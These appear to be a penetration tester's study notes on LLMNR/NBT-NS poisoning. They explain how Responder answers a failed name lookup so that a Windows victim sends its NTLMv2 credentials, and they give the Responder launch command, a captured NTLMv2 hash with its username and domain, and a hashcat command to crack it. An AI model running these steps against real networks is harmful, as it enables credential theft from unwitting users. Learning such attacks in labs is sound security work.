




# LLMNR Poisoning

<?xml version="1.0" encoding="UTF-8"?>
<node><rich_text>LLMNR : used to identify hosts when DNS fails to do so.
called previously NBT-NS (NetBIOS name service)

key flaw is that the services utilize a user's username and NTLMv2 hash when appropriately responded.

</rich_text></node>

## Responder.py

<?xml version="1.0" encoding="UTF-8"?>
<node><rich_text>cd /usr/share/responder
python3 Responder.py -I eth0 -dwv

-d : dhcp poisoning
-w : wpad 
-v : verbose

</rich_text><rich_text justification="left"></rich_text><rich_text>

</rich_text><rich_text justification="left"></rich_text><rich_text>

</rich_text><rich_text justification="left"></rich_text><rich_text>

what happend here is: 

victim open file explorer and search for a file/folder for example pokie  which doesn't exist.
victim's computer need the ip address for pokie so it asks dns "who is pokie" , if dns has no record : "idk pokie" . now windows use other name resolution protocols such as LLMNR , NBT-NS , mDNS.
victim send a broad cast massage asking who is pokie and what is his ip address . the attacker is running responder tool, so it replies " i am pokie and here is my ip" this is the poisoned response.
Now Windows says:

Okay, pokie is at 192.168.1.100

So it tries:

SMB connection:

Victim → Attacker
"Give me the pokie share"

The attacker responds with:

SMB authentication required

Windows automatically sends its credentials using NTLM:

Username: Mohammad
Domain: BOSS
NTLMv2 Hash: xxxxxxxxx

Responder captures this.

cozimaki::BOSS:b32b3bdd9bd96702:8CD118CA1B0769048C68E2213ADDB5CC:0101000000000000F1E84241E51EDD0148E434C0787199EB0000000002000800500037003200580001001E00570049004E002D00570042004F00490050004C004E0035005300510036000400140050003700320058002E004C004F00430041004C0003003400570049004E002D00570042004F00490050004C004E0035005300510036002E0050003700320058002E004C004F00430041004C000500140050003700320058002E004C004F00430041004C0008005000500000000000000001000000002000000B5CABF6B4D67F7161021945D32FD74111160FEC5AC89D2B4C39EA7771B23D22C157BBDB2E6208F0C009211AE0A6F397765C23FCFF186F473DED12836546B9E90A0010000000000000000000000000000000000009001E0048005400540050002F0070006F006B0069002E006C006F00630061006C000000000000000000
</rich_text></node>

## cracking using hashcat

<?xml version="1.0" encoding="UTF-8"?>
<node><rich_text>now lets crack the hash using hashcat tool : 

-hashcat.exe -m 5600 “hashed file" “passwords-list” -O

</rich_text><rich_text justification="left"></rich_text><rich_text>

</rich_text></node>

